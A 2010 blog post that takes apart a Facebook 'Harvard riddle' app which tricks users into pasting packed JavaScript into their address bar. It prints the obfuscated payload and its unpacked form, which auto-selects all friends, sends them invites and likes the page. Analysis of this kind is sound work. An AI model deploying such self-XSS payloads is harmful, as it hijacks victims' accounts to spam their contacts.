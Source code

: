 ```yaml
---
layout: post
title: "Shady Harvard Puzzle Facebook App Disassembled"
date: 2010-04-26 22:32:33 +0000
permalink: /en/shady-harvard-puzzle-facebook-app-disassembled
blog: en
render_with_liquid: false
---
```


Today I got an email from a friend on Facebook that suggested that I try
out this application called "[Only 4% of harvard grads can solve this
riddle..](http://www.facebook.com/pages/Only-4-of-harvard-grads-can-solve-this-riddle/112049325499228?v=wall)".
Being curious I took a look at it.

The app starts out innocently enough, posing a riddle that supposedly
only 4% of Harvard grads can guess.

![image](http://farm5.static.flickr.com/4062/4554647376_5a38c707a8.jpg)

But in order to see the answer it asks you to type "Ctrl-C" to copy some
javascript, "Alt-D" to select your address bar, and "Ctrl-V Enter" to
run the javascript.

Here is the beautified packed javascript.

```javascript
javascript: (function () {
  a = "app112010525500764_jop";
  b = "app112010525500764_jode";
  ifc = "app112010525500764_ifc";
  ifo = "app112010525500764_ifo";
  mw = "app112010525500764_mwrapper";
  eval(
    (function (p, a, c, k, e, r) {
      e = function (c) {
        return (
          (c < a ? "" : e(parseInt(c / a))) +
          ((c = c % a) > 35 ? String.fromCharCode(c + 29) : c.toString(36))
        );
      };
      if (!"".replace(/^/, String)) {
        while (c--) r[e(c)] = k[c] || e(c);
        k = [
          function (e) {
            return r[e];
          },
        ];
        e = function () {
          return "\\w+";
        };
        c = 1;
      }
      while (c--)
        if (k[c]) p = p.replace(new RegExp("\\b" + e(c) + "\\b", "g"), k[c]);
      return p;
    })(
      'J e=["\\n\\g\\j\\g\\F\\g\\i\\g\\h\\A","\\j\\h\\A\\i\\f","\\o\\f\\h\\q\\i\\f\\r\\f\\k\\h\\K\\A\\L\\t","\\w\\g\\t\\t\\f\\k","\\g\\k\\k\\f\\x\\M\\N\\G\\O","\\n\\l\\i\\y\\f","\\j\\y\\o\\o\\f\\j\\h","\\i\\g\\H\\f\\r\\f","\\G\\u\\y\\j\\f\\q\\n\\f\\k\\h\\j","\\p\\x\\f\\l\\h\\f\\q\\n\\f\\k\\h","\\p\\i\\g\\p\\H","\\g\\k\\g\\h\\q\\n\\f\\k\\h","\\t\\g\\j\\z\\l\\h\\p\\w\\q\\n\\f\\k\\h","\\j\\f\\i\\f\\p\\h\\v\\l\\i\\i","\\j\\o\\r\\v\\g\\k\\n\\g\\h\\f\\v\\P\\u\\x\\r","\\B\\l\\Q\\l\\R\\B\\j\\u\\p\\g\\l\\i\\v\\o\\x\\l\\z\\w\\B\\g\\k\\n\\g\\h\\f\\v\\t\\g\\l\\i\\u\\o\\S\\z\\w\\z","\\j\\y\\F\\r\\g\\h\\T\\g\\l\\i\\u\\o"];d=U;d[e[2]](V)[e[1]][e[0]]=e[3];d[e[2]](a)[e[4]]=d[e[2]](b)[e[5]];s=d[e[2]](e[6]);m=d[e[2]](e[7]);c=d[e[9]](e[8]);c[e[11]](e[10],I,I);s[e[12]](c);C(D(){W[e[13]]()},E);C(D(){X[e[16]](e[14],e[15])},E);C(D(){m[e[12]](c);d[e[2]](Y)[e[4]]=d[e[2]](Z)[e[5]]},E);',
      62,
      69,
      "||||||||||||||_0x95ea|x65|x69|x74|x6C|x73|x6E|x61||x76|x67|x63|x45|x6D||x64|x6F|x5F|x68|x72|x75|x70|x79|x2F|setTimeout|function|5000|x62|x4D|x6B|true|var|x42|x49|x48|x54|x4C|x66|x6A|x78|x2E|x44|document|mw|fs|SocialGraphManager|ifo|ifc|||||||".split(
        "|",
      ),
      0,
      {},
    ),
  );
})();
```

Here we have some javascript code that is packed. The above code unpacks
the packed code and evals it. I replaced the above eval with console.log
and ran the code to output the packed code. Here it is beautified.

```javascript
d = document;
d["getElementById"](mw)["style"]["visibility"] = "hidden";
d["getElementById"](a)["innerHTML"] = d["getElementById"](b)["value"];
s = d["getElementById"]("suggest");
m = d["getElementById"]("likeme");
c = d["createEvent"]("MouseEvents");
c["initEvent"]("click", true, true);
s["dispatchEvent"](c);
setTimeout(function () {
  fs["select_all"]();
}, 5000);
setTimeout(function () {
  SocialGraphManager["submitDialog"](
    "sgm_invite_form",
    "/ajax/social_graph/invite_dialog.php",
  );
}, 5000);
setTimeout(function () {
  m["dispatchEvent"](c);
  d["getElementById"](ifo)["innerHTML"] = d["getElementById"](ifc)["value"];
}, 5000);
```

Lets go though the code above step by step.

```javascript
d["getElementById"](mw)["style"]["visibility"] = "hidden";
```

This code hides the application's main block.

```javascript
d["getElementById"](a)["innerHTML"] = d["getElementById"](b)["value"];
```

The contents of the textarea at id b ('app112010525500764_jode') is
html for a dialog to suggest the application to your friends. The code
inserts it into a block on the page.

```html
<textarea
  id="app112010525500764_jode"
  style="display: none;"
  fbcontext="86d477030eb0"
>
  <div class="suggestdiv">
    <a id="suggest" href="#" ajaxify="/ajax/social_graph/invite_dialog.php?class=FanManager&node_id=112049325499228" class=" profile_action actionspro_a" rel="dialog-post">Suggest to Friends</a>
  </div>
  <div class="likemediv">
    <a ajaxify="/ajax/pages/fan_status.php?fbpage_id=112049325499228&add=1&reload=0&preserve_tab=1&use_primer=1" id="likeme" rel="async-post" class="UIButton UIButton_Gray UIButton_CustomIcon UIActionButton" href="#">
    <span class="UIButton_Text"><i class="UIButton_Icon img spritemap_icons sx_icons_like"></i>Like</span></a>
  </div>
</textarea>
```

The next code sets up a mouse click event and selects some elements from
the suggest box.

```javascript
s = d["getElementById"]("suggest");
m = d["getElementById"]("likeme");
c = d["createEvent"]("MouseEvents");
c["initEvent"]("click", true, true);
s["dispatchEvent"](c);
```

The code below is the shady part. It sets 5 second timers that will
click items on the suggestion box, effectively selecting all of your
friends and suggesting the application to them. It then likes the
application.

```javascript
setTimeout(function () {
  fs["select_all"]();
}, 5000);
setTimeout(function () {
  SocialGraphManager["submitDialog"](
    "sgm_invite_form",
    "/ajax/social_graph/invite_dialog.php",
  );
}, 5000);
setTimeout(function () {
  m["dispatchEvent"](c);
  d["getElementById"](ifo)["innerHTML"] = d["getElementById"](ifc)["value"];
}, 5000);
```

As of this writing 543 people had liked the application which I take to
mean that 543 people followed the instructions on the application. The
application itself doesn't do anything particularly bad besides spam all
of your friends so I took it to be a security research application.
Anyone else have a better take on it?
